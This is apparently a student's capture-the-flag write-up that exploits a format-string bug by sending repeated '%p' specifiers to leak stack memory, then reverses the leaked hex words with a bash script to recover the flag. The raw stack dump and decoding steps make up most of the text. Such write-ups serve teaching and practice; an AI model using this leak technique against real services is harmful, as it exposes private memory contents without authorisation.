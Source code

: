# Exercise 3
## Jakob Udovic, s1049877

We are looking for something like:
```
HiCCTF{W0EkouRlR4fYXopWfXiowOfs9OMhyh2gFpOnrMnIMBQNiKQUSS1ELpMISaTkZP07}
```


We can put the max of 92 "%p "-s:  

```
$ ./attack.sh 92
Attackstring is 275 bytes
0x436f594465383736 0x6c78736246564b35 0x7d737a5457615239 0x7ffff7ffe490 0x7ffff7ffc63b 0x547b465443436948 0x39786e6554506955 0x326c4c4d306d507a 0x4d624c35476e5839 0x6c78736246564b35 0x503665514d433071 0x436f594465383736 0x475172716365557a 0x7d737a5457615239 0 0x7ffff7ffc63b 0x7ffff7ffe360 0 0x48 0x7fffffffeb70 0x4a6740c11727320 0x7fffffffec98 0x555555555363 0x7fffffffec30 0x55555555534c 0x1 0x116 0x7ffff7ffe360 0x4a6740c11727320 0x7fffffffec40 0x555555555371 0x1 0x7ffff7f851f5 0x7ffff7f851ce 0x7fffffffec80 0 0xf8 0x7ffff7ffdd48 0x5555555550be 0x1 0x7fffffffee80 0 0x7fffffffee8d 0x7fffffffeecf 0x7fffffffeeda 0x7fffffffef08 0x7fffffffef1c 0x7fffffffef28 0x7fffffffef2e 0x7fffffffef41 0x7fffffffef48 0x7fffffffef55 0x7fffffffef63 0x7fffffffef79 0x7fffffffef88 0x7fffffffefa5 0x7fffffffefb9 0x7fffffffefd6 0 0x21 0x7ffff7f68000 0x10 0x1f8bfbff 0x6 0x1000 0x11 0x64 0x3 0x555555554040 0x4 0x38 0x5 0xa 0x7 0x7ffff7f69000 0x8 0 0x9 0x5555555550a8 0xb 0xfffe 0xc 0xfffe 0xd 0xfffe 0xe 0xfffe 0x17 0 0x19 0x7fffffffee69 0x1a
```

We convert first n variables from:

```
436f594465383736 6c78736246564b35 7d737a5457615239 547b465443436948 39786e6554506955 326c4c4d306d507a 4d624c35476e5839 6c78736246564b35 503665514d433071 436f594465383736 475172716365557a 7d737a5457615239
```

To:  
```
CoYDe876lxsbFVK5}szTWaR9T{FTCCiH9xneTPiU2lLM0mPzMbL5GnX9lxsbFVK5P6eQMC0qCoYDe876GQrqceUz}szTWaR9
```

We can see the FTCCiH which is HiCCTF but in reverse.


Trim the stack:  
```
0x436f594465383736 0x6c78736246564b35 0x7d737a5457615239 0x7ffff7ffe490 0x7ffff7ffc63b 0x547b465443436948 0x39786e6554506955 0x326c4c4d306d507a 0x4d624c35476e5839 0x6c78736246564b35 0x503665514d433071 0x436f594465383736 0x475172716365557a 0x7d737a5457615239
```

547b465443436948  
is  
T{FTCCiH  

If we reverse it, we get:  
HiCCTF{T  

The next value would be:
39786e6554506955  
and so:  
9xneTPiU  

My educated guess is that the flag is stored the same way as in the first challenge, except in big endian form. Therefore I need to flip bytes before converting them. I would say that in the first exercise the bytes were flipped for us in the first place and therefore easier to obtain.  

I will also guess that first 3 values do not provide me with anythin interesting, therefore I will work with only the rest of the values:  

```
547b465443436948 39786e6554506955 326c4c4d306d507a 4d624c35476e5839 6c78736246564b35 503665514d433071 436f594465383736 475172716365557a 7d737a5457615239
```

And in their original form (with 0x prefix):  
```
0x547b465443436948 0x39786e6554506955 0x326c4c4d306d507a 0x4d624c35476e5839 0x6c78736246564b35 0x503665514d433071 0x436f594465383736 0x475172716365557a 0x7d737a5457615239
```

I was right. How I obtained the flag is with a simple bash script:  

```
#!/bin/bash

# hex to ascii converter online: https://www.rapidtables.com/convert/number/hex-to-ascii.html
# asii table: http://www.asciitable.com/
# looping over string array: https://stackoverflow.com/questions/8880603/loop-through-an-array-of-strings-in-bash

## declare an array variable
declare -a arr=("0x547b465443436948" "0x39786e6554506955" "0x326c4c4d306d507a" "0x4d624c35476e5839" "0x6c78736246564b35" "0x503665514d433071" "0x436f594465383736" "0x475172716365557a" "0x7d737a5457615239")
str=""

## now loop through the above array
for i in "${arr[@]}"
do
   str="${str}$(./reverseaddr $i)"
done

echo $str
```

Flag:
```
HiCCTF{TUiPTenx9zPm0MLl29XnG5LbM5KVFbsxlq0CMQe6P678eDYoCzUecqrQG9RaWTzs}
```